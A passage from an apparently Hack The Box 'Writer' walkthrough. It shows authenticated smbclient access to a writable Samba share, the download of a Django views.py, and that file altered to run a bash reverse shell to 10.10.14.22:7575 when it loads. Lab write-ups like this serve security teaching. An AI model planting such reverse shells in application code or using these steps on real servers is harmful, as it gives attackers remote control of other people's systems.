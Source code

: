 Connected to the share `writer2_project` we have write access to the views.py.
Early in the release one could directly access the `django_hashes` which skipped the next part. Next to this there where also some artifacts, laying out the later stages, from HTB testing the machine.

```
$ smbclient -L //10.129.182.107/ -U 'kyle%ToughPasswordToCrack'

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        writer2_project Disk
        IPC$            IPC       IPC Service (writer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

```
$ smbclient //10.129.182.107/writer2_project -U 'kyle%ToughPasswordToCrack'
Try "help" to get a list of possible commands.
smb: \ > ls
  .                                   D        0  Wed Jul 28 10:00:31 2021
  ..                                  D        0  Tue Jun 22 18:55:06 2021
  static                              D        0  Sun May 16 21:29:16 2021
  django_hashes                       N      112  Wed Jul 28 10:00:31 2021
  staticfiles                         D        0  Fri Jul  9 11:59:42 2021
  writer_web                          D        0  Wed May 19 16:26:18 2021
  requirements.txt                    N       15  Sun Aug  1 00:06:01 2021
  writerv2                            D        0  Wed May 19 13:32:41 2021
  manage.py                           N      806  Sun Aug  1 00:06:01 2021

                7151096 blocks of size 1024. 2439228 blocks available
smb: \ > cd writer_web\
smb: \writer_web\ > ls
  .                                   D        0  Wed May 19 16:26:18 2021
  ..                                  D        0  Wed Jul 28 10:00:31 2021
  apps.py                             N      133  Sun Aug  1 00:06:01 2021
  views.py                            A      181  Sun Aug  1 00:06:01 2021
  __init__.py                         N        0  Sun Aug  1 00:06:01 2021
  urls.py                             N      127  Sun Aug  1 00:06:01 2021
  tests.py                            N       60  Sun Aug  1 00:06:01 2021
  __pycache__                         D        0  Wed May 19 22:06:02 2021
  admin.py                            N       63  Sun Aug  1 00:06:01 2021
  models.py                           N       98  Sun Aug  1 00:06:01 2021
  templates                           D        0  Tue May 18 14:43:07 2021

                7151096 blocks of size 1024. 2439228 blocks available
smb: \writer_web\ > get views.py
getting file \writer_web\views.py of size 181 as views.py (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
```

We download it and modify the file to contain a python reverseshell.

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

os.system('bash -c "bash -i >& /dev/tcp/10.10.14.22/7575 0>&1"')

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```
